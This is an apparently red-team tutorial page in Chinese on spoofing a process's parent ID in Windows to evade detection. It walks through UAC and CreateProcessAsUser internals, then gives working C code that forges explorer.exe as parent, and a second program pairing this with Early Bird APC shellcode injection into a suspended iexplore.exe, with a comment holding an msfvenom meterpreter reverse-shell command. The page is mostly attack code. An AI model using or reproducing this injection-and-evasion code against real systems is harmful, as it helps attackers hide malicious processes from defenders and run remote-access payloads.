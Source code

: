 ```yaml
---
description: fake-PPID
---
```


# 伪装PPID规避检测

## UAC创建进程的过程的疑惑

> 在触发UAC时，操作系统会创建一个名为consent.exe的进程，该进程通过白名单和用户选择来确定是否提升权限。 请求进程将要提升权限的进程的commandline和程序路径通过LPC\(Local Procedure Call\)接口传递给appinfo的RAiluanchAdminProcess函数，该函数首先会验证传入程序是否在白名单内同时判断是否弹出UAC窗口，这个UAC框会创建新的安全桌面，屏蔽之前的界面。同时这个UAC框进程是SYSTEM权限进程，其他普通进程也无法和其进行通信交互。用户确认之后，会调用CreateProcessAsUser函数以管理员权限启动请求的进程。

  
  
触发UAC创建进程的过程中,我们可以知道实际上高权限的进程是由consent.exe进程创建的，但实际上父进程并非指向consent.exe任就是UAC发起者的进程ID，那么我们是否可以自己指定父进程，增加判断成本从而使蓝队脑阔疼。

![](../.gitbook/assets/image%20%2820%29.png)

![&#x7236;&#x8FDB;&#x7A0B;&#x5E76;&#x975E;consent.exe](../.gitbook/assets/image%20%2846%29.png)

## CreateProcessAsUser函数

最终创建函数的是由consent.exe调用的CreateProcessAsUser函数，那我们猜测是否是consent.exe调用时指定了某些参数，导致PPID的更换。

* 在官方文档中给出了如下原型:

```text
BOOL CreateProcessAsUserA(
  HANDLE                hToken,
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```

查询官方文档得知，如果在dwCreationFlags中EXTENDED\_STARTUPINFO\_PRESENT标准，那么lpStartupInfo传入的就会是一个名为STARTUPINFOEXA的结构体，而这个结构体能指定父进程的相关信息，最终传入的PPID会被写入到新进程\_eprocess结构体的InheritedFromUniqueProcessId位置。

```text
typedef struct _STARTUPINFOEXA {
  STARTUPINFOA                 StartupInfo;
  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList;
} STARTUPINFOEXA, *LPSTARTUPINFOEXA;
```

根据查询的文档,CreateProcess函数同样也支持STARTUPINFOEXA结构体。

## 伪装PPID创建iexplore.exe

* 寻找explorer.exe的pid

```text
DWORD FindExplorerPID() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, L"explorer.exe"))
                break;
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}
```

```text
int main() {

    STARTUPINFOEXA siex = {0};
    SIZE_T Size;
    siex.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    HANDLE hFake = OpenProcess(PROCESS_ALL_ACCESS, false, FindExplorerPID());

    InitializeProcThreadAttributeList(NULL, 1, 0, &Size);
    siex.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, Size);
    InitializeProcThreadAttributeList(siex.lpAttributeList, 1, 0, &Size);

    UpdateProcThreadAttribute(siex.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hFake, sizeof(HANDLE), NULL, NULL);
    

    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&siex, NULL);
    //PS:这里有个小坑，需要开启继承句柄
    return 0;
}
```

![](../.gitbook/assets/image%20%2833%29.png)

## 与进程注入技术EARLYBIRD搭配使用

```text
#include <stdio.h>
#include <windows.h>
#include <TlHelp32.h>


DWORD FindExplorerPID() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, L"explorer.exe"))
                break;
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}

int main() {

    //msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor_dynamic -i 14 LHOST=192.168.0.109 EXITFUNC=thread -f
    unsigned char shellcode[] = ("XXX");


    STARTUPINFOEXA siex;
    PROCESS_INFORMATION piex;
    SIZE_T sizeT;
    siex.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    HANDLE expHandle = OpenProcess(PROCESS_ALL_ACCESS, false, FindExplorerPID());

    InitializeProcThreadAttributeList(NULL, 1, 0, &sizeT);
    siex.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, sizeT);
    InitializeProcThreadAttributeList(siex.lpAttributeList, 1, 0, &sizeT);
    UpdateProcThreadAttribute(siex.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &expHandle, sizeof(HANDLE), NULL, NULL);
    

    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&siex, &piex);

    LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(piex.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(piex.hProcess, lpBaseAddress, (LPVOID)shellcode, sizeof(shellcode), NULL);
    QueueUserAPC((PAPCFUNC)lpBaseAddress, piex.hThread, NULL);
    ResumeThread(piex.hThread);
    CloseHandle(piex.hThread);

    return 0;
}
```

![](../.gitbook/assets/image%20%2847%29.png)

![](../.gitbook/assets/image%20%2842%29.png)

![](../.gitbook/assets/image%20%2840%29.png)

* github:[https://github.com/idiotc4t/FakePPID](https://github.com/idiotc4t/FakePPID)

## LINKS

{% embed url="https://www.securitynewspaper.com/2018/04/17/new-early-bird-code-injection-technique/" %}

{% embed url="https://docs.microsoft.com/zh-cn/windows/win32/api" %}



